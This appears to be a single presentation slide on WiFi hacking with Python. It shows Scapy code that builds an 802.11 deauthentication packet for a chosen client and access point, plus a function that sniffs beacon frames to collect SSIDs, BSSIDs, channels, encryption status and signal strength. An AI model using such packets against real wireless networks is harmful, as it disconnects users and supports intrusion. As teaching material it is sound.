

# Python – WiFi Fun??
Create your own De Auth packets??

Sniff some beacons??

packet = RadioTap()/Dot11(type=0,subtype=12,addr1=client,addr2=bssid,addr3=bssid)/Dot11Deauth(reason=7)
def sniffBeacons(p):
	if p.haslayer(Dot11Beacon):
		enc = ''
		ssid = p[Dot11Elt].info
		bssid = p[Dot11].addr3
		channel = int(ord(p[Dot11Elt:3].info))
		capability = p.sprintf("{Dot11Beacon:%Dot11Beacon.cap%}{Dot11ProbeResp:%Dot11ProbeResp.cap%}")
		rssi = (ord(p.notdecoded[-4:-3])-256)
		if re.search("privacy", capability):
			enc = 'Y'
		else:
			enc = 'N'
		entity = ssid, bssid, channel, enc, rssi, interface

sniff(iface=interface, prn=sniffBeacons)